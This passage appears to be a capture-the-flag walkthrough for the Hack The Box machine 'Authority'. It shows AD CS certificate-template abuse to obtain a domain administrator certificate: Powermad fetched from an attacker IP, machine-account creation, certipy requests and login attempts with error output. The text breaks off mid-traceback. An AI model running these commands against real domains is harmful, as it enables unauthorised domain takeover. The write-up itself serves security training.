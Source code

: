 By joining a `machine account` you control to the domain, using that domain joined machine account, you can request a certificate for the domain administrator using the vulnerable `CorpVPN` certificate template, and therefore escalate to domain administrator as you can use that certificate for login authentication.

1. Create and Join your `Machine Account` to the domain.
2. Request a certificate for the `Domain Administrator` using the `CorpVPN` certificate template.
3. Fail miserably trying to login using the certificate.
	1. Login Fail via `Evil-Winrm` because the ssl port is closed.
	3. Login Fail via `PKINITtools` -> `gettgtpkinit.py` because the CA does not allow Kerberos authentication.
4. Achieve GREAT SUCCESS by using `PassTheCert` for login.

```bash
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
```
```powershell
iwr 10.10.16.8/Powermad.ps1 -o powermad.ps1
Import-Module .\powermad.ps1
```
create and join your machine account to the domain using [powermad -> New-MachineAccount](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)
```powershell
$securePassword = ConvertTo-SecureString 'P@s$w0rd!' -AsPlainText -Force; 
New-MachineAccount -MachineAccount "cringe" -Password $securePassword;
```

use your machine account to request a certificate for the domain administrator with the vulnerable `CorpVPN` certificate template using [certipy](https://github.com/ly4k/Certipy):
```bash
 certipy req -u 'cringe$' -p 'P@s$w0rd!' -ca 'AUTHORITY-CA' -target 'authority.htb' -template 'CorpVPN' -upn 'administrator@authority.htb' -dns 'authority.htb'
```

https://notes.shashwatshah.me/windows/active-directory/winrm-using-certificate-pfx#for-linux
```bash
openssl pkcs12 -in administrator_authority.pfx -clcerts -nokeys -out administrator_authority.crt
openssl rsa -in administrator_authority.pfx -out administrator_authority.key
```

```bash
evil-winrm -i 'authority.htb' -u 'Administrator' -p '' -S -c administrator_authority.crt -k administrator_authority.key
```
```log
Error: An error of type Errno::ECONNREFUSED happened, message is Connection refused - Connection refused - connect(2) for "authority.htb" port 5986 (authority.htb:5986)
```
- cannot use winrm with the certificate because the ssl port for winrm: `5986` is closed

```bash
python3 ./gettgtpkinit.py 'authority.htb/administrator' administrator.ccache  -cert-pfx ./administrator_authority.pfx
```
```log
2023-07-16 18:38:19,390 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-07-16 18:38:19,437 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/void/PKINITtools/./gettgtpkinit.py", line 349, in <module>
    main()
  File "/home/void/PKINITtools/./gettgtpkinit.py", line 345, in main
    amain(args)
  File "/home/void/PKINITtools/./gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
          ^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3/dist-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
```